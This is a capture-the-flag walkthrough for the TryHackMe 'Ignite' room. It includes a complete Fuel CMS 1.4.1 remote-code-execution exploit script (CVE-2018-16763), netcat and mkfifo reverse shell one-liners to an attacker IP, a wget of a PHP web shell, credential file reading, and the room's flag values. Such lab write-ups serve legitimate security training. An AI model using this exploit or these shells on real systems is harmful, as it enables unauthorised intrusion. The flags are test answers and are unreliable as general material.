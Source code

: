 ```yaml
---
description: 'https://tryhackme.com/room/ignite'
---
```


# Ignite

## INIT

```text
export ignite=10.10.28.158
ping $ignite

echo "10.10.28.158 ignite.thm" >> /etc/hosts
```

## NMAP

```text
nmap -sC -sV -O $ignite
```

![](../.gitbook/assets/image%20%28428%29.png)

## GOBUSTER

```text
gobuster dir -u $ignite -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28377%29.png)

## HTTP

![](../.gitbook/assets/image%20%28404%29.png)

![](../.gitbook/assets/image%20%28423%29.png)

![](../.gitbook/assets/image%20%28389%29.png)

{% hint style="info" %}
login: admin

password: admin
{% endhint %}

![](../.gitbook/assets/image%20%28402%29.png)

![](../.gitbook/assets/image%20%28376%29.png)

```text
searchsploit Fuel
searchsploit -p 47138
```

![](../.gitbook/assets/image%20%28418%29.png)

```text
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ignite.py
```

```text
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib
import urllib.parse

url = "http://10.10.39.95"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])

```

![](../.gitbook/assets/image%20%28381%29.png)

```text
nc -e /bin/sh 10.14.4.204 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.204 4444 >/tmp
```

![](../.gitbook/assets/image%20%28398%29.png)

```text
cmd:bash shell.sh
```

![](../.gitbook/assets/image%20%28416%29.png)

```text
python3 ignite.py
wget http://10.14.4.204:8000/phpbash.php
```

![](../.gitbook/assets/image%20%28394%29.png)

![](../.gitbook/assets/image%20%28408%29.png)

![](../.gitbook/assets/image%20%28385%29.png)

![](../.gitbook/assets/image%20%28412%29.png)

### User.txt

{% hint style="success" %}
6470e394cbf6dab6a91682cc8585059b
{% endhint %}

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](../.gitbook/assets/image%20%28407%29.png)

```text
 cat /var/www/html/fuel/application/config/database.php
```

![](../.gitbook/assets/image%20%28419%29.png)

```text
su -
password: mememe
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28403%29.png)

### Root.txt

{% hint style="success" %}
b9bbcb33e11b80be759c4e844862482d
{% endhint %}

